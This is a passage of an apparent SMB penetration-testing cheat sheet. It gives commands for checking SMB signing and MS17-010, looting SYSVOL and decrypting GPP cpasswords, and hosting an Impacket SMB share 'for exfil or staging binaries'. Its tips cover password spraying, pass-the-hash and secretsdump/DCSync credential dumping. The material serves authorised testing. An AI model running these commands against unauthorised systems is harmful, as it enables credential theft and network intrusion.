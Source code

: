 7) Quick checks for common SMB weaknesses

```
# SMB signing and dialects
nmap -p445 --script smb2-security-mode,smb-protocols -oN nmap/${TARGET}_smb_security.nmap $TARGET

# MS17-010 (EternalBlue) check (script may be missing in newer nmap; use carefully)
nmap -p445 --script smb-vuln-ms17-010 -oN nmap/${TARGET}_ms17.nmap $TARGET
# Metasploit alternative (if allowed)
# msfconsole -q -x "use auxiliary/scanner/smb/smb_ms17_010; set RHOSTS $TARGET; run; exit"
```

8) Domain controller-specific looting (if target is a DC)

```
# SYSVOL/NETLOGON often readable; look for GPP cpassword in XML
smbclient "//${TARGET}/SYSVOL" -U "${DOMAIN}/${USER}%${PASS}" -c "recurse ON; prompt OFF; mget *" -W "$DOMAIN"
grep -Rni cpassword loot/ 2>/dev/null

# Decrypt GPP cpassword if found
gpp-decrypt <base64_cpassword>
```

9) Hosting your own SMB (for exfil or staging binaries)

```
# Quick SMB server with Impacket (useful when the target pulls from you)
impacket-smbserver share ./share -smb2support
```

10) Cleanup

```
sudo umount /mnt/${TARGET}_SHARE 2>/dev/null || true
```

# Practical tips

- Force SMB dialect when negotiation fails: use smbclient -m SMB2 or -m NT1 on older hosts.
- For large shares, prefer smbget or mount.cifs + grep rather than interactive smbclient.
- In smbclient, use: recurse ON; prompt OFF; mget * for bulk pulls.
- Use smbmap first with creds to instantly see RW shares and quickly filter interesting filenames with -A.
- Avoid account lockouts: throttle sprays (e.g., nxc --rate 3), respect org policy, and prefer known creds.
- Pass-the-hash works where SMB signing doesn’t block and local admin rights exist; try with CME/NXC or Impacket.
- On DCs, immediately check SYSVOL/NETLOGON and search for cpassword in GPP XML.
- If you find web.config, unattended install files, KeePass DBs (.kdbx), VNC.ini, or backup scripts—those often contain credentials.
- secretsdump can pull local SAM hashes remotely if you have admin. On DCs, consider -just-dc (DCSync) only with domain admin creds.
- Be cautious with MS17-010 checks in production; some detectors or fragile hosts may react badly—use safe checks when possible.
